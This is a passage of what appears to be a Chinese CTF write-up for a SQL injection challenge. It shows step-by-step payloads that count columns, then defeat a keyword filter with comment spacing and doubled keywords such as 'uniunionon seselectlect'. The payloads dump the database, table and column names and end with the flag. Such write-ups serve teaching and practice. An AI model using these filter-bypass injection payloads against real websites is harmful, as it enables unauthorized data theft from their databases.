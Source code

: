 &emsp;&emsp;开始尝试：

&emsp;&emsp;id=1/*1*/order/*1*/by/*1*/1 显示正常

&emsp;&emsp;id=1/*1*/order/*1*/by/*1*/2 显示正常

&emsp;&emsp;id=1/*1*/order/*1*/by/*1*/4 显示错误，字段数为3

&emsp;&emsp;id=-1/*12*/uniunionon/*12*/seselectlect/*12*/1,2,(database())%23

&emsp;&emsp;得到数据库名test。

&emsp;&emsp;id=-1/*12*/uniunionon/*12*/seselectlect/*12*/1,2,(seselectlect/*12*/group_concat(table_name)/*12*/frfromom/*12*/information_schema.tables/*12*/where/*12*/table_schema=database())%23

&emsp;&emsp;得到表名：content。

&emsp;&emsp;id=-1/*12*/uniunionon/*12*/seselectlect/*12*/1,2,(selselectect/*12*/group_concat(column_name)/*12*/frofromm/*12*/information_schema.columns/*12*/where/*12*/table_name=0x636f6e74656e74)%23

&emsp;&emsp;得到列名：context。

&emsp;&emsp;id=-1/*12*/uniunionon/*12*/seselectlect/*12*/1,2,(selselectect/*12*/context/*12*/frofromm/*1*/content)%23

&emsp;&emsp;得到flag：PCTF{Fin4lly_U_got_i7_C0ngRatulation5}。

## 欲知后事如何，请听下回分解
